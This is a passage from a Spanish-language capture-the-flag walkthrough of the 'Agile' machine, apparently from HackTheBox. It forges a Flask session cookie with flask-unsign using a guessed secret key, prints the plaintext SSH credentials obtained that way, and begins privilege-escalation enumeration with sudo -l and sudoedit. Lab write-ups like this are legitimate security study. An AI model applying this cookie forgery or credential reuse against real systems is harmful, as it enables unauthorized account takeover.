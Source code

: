 Asumimos que la SECRET_KEY es la misma e intentamos crear una sesion con el id 1

~~~bash
flask-unsign --sign --cookie "{'_flashes': [('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.')], '_fresh': True, '_id': 'fda9eeb3cacce1fd4cd0e921abc6ce78e0a9d9f800292c3012c8cb14fa8bad929be3542969759bf79ef9794b35b7a1dc136c8712eb9d1931cb868ff0740e4b90', '_user_id': '1'}" -S  MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD 
.eJydjkuKwzAQRK8iem0G_WypfYrZDyF0t1qxwUkGy1mF3H005AZZFUXVo-oJ57pRW7TB_PMEc3SBq7ZGF4UBvjelpma7X8x6M8fdkEgPzbGszfz2zhecXsOH3Gno47u2BeZjf2h3a4EZaiFU5SD_jKslSrGK3hHLJJqyWsKCNVvr0UuwzksWdrFSZirokTWM0eOEaUSuCbViwshh5ESuiAuT5OS8MhaHwQnnKddqU7QaGW2_f3403d9vHLz-APu_WkA.ZAYrig.VWDh3LEQeurRSGRbKa66sTMRUPA
~~~

Logramos acceder a las credenciales del usuario edwards

![](/Agile/Pasted_image_20230309120804.png)


Sus datos son:

~~~
edwards:d07867c6267dcb5df0af
dedwards__:7dbfe676b6b564ce5718
~~~

Finalmente ingresamos al sistemas a través de ssh con estas últimas credenciales

![](/Agile/Pasted_image_20230309121717.png)

## User Edwards Enumeration

Verificamos los permisos sudo

~~~
sudo -l
~~~

~~~bash
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt

~~~

Con sudoedit podemos modificar un archivo protegido por el administrador

Intentamos acceder al archivo config_test.json

~~~bash
sudo -u dev_admin sudoedit /app/config_test.json
~~~

config_test.json
